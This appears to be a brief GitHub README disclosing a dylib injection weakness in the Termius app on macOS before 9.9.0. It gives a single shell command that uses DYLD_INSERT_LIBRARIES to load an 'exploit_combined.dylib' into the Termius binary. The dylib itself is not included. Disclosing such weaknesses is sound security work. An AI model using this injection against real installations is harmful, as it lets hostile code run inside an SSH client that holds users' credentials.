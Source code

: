 # Termius-Command-injection
Termius App MacOS dylib Command injection

Terminus before 9.9.0 

using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```

